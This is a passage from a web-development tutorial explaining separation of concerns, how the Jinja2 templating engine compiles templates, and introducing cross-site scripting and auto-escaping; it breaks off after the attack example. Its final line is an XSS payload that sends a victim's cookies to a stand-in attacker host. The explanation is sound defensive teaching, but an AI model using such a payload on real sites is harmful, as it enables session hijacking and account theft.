 This is a nightmare for two reasons:

1.  **Maintainability:** A web designer who only knows HTML can't safely edit the page's structure. They might break the `for` loop.
2.  **Security:** The developer must remember to manually escape every single piece of data (`htmlspecialchars`) to prevent attacks. Forgetting just one is a vulnerability.

**The Solution: Templating Engines (like Jinja2)**

A templating engine enforces a powerful design pattern: **Separation of Concerns**.

- **Logic (Python):** Gathers and prepares data. It knows _nothing_ about HTML.
- **Presentation (HTML Template):** Defines the structure and layout. It knows _nothing_ about how the data was fetched.

**How Jinja2 Works (Compiler Theory in Action):**

When you call `templates.TemplateResponse("index.html", ...)`, Jinja2 performs a compilation process:

1.  **Lexing (Tokenization):** It reads your `index.html` file and breaks it into a sequence of tokens.

    - `<h1>` becomes a `TOKEN_DATA`
    - `{{` becomes a `TOKEN_VAR_START`
    - `my_variable` becomes a `TOKEN_NAME`
    - `}}` becomes a `TOKEN_VAR_END`

2.  **Parsing:** The stream of tokens is fed into a parser, which builds an **Abstract Syntax Tree (AST)**. This is a tree representation of your template's logic.

    ```
    Template
    └── Output Node
        ├── Data: "<h1>"
        ├── GetVariable: "my_variable"
        └── Data: "</h1>"
    ```

3.  **Code Generation:** Jinja2's compiler walks this AST and generates optimized Python code in memory. `{{ my_variable }}` might become something like `yield str(context.get('my_variable'))`.

4.  **Rendering:** Finally, this generated Python code is executed with the context dictionary you provide. The output is streamed to the browser.

Because the template is compiled, rendering it for subsequent requests is extremely fast—almost as fast as running native Python code.

### **Security Deep Dive: Cross-Site Scripting (XSS) and Auto-Escaping**

This is one of the most important security concepts in web development.

**The Attack:**
Imagine your app allows users to enter a checkout message. A malicious user enters this as their message:

`<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>`
